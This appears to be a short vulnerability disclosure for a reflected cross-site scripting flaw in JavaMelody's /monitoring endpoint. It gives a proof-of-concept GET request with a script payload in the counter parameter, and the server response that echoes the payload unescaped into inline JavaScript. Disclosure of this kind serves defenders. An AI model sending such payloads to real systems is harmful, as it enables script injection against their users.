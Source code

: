 ## JavaMelody 1.60.0 vulnerability Cross-Site Scripting
## This vulnerability maybe affected version <= 1.72.0

* Request:

```
GET /monitoring?action=clear_counter&counter=<script>alert(1)</script> HTTP/1.1;
Host: victim
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
``` 

* Response:

``` 
HTTP/1.0 200 OK
Date: Wed, 13 Jun 2018 09:52:54 GMT
Server:
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Cache-Control: no-cache
Pragma: no-cache
Expires: -1
Vary: Accept-Encoding
Content-Type: text/html;charset=UTF-8
Connection: close

...
...

<script type='text/javascript'>
alert("Statistics <script>alert(1)</script> cleared.");
if (location.href.indexOf('?') != -1) {
location.href = location.href.substring(0, location.href.indexOf('?')) + '#<script>alert(1)</script>';} else {
location.href = '#<script>alert(1)</script>';}
</script>
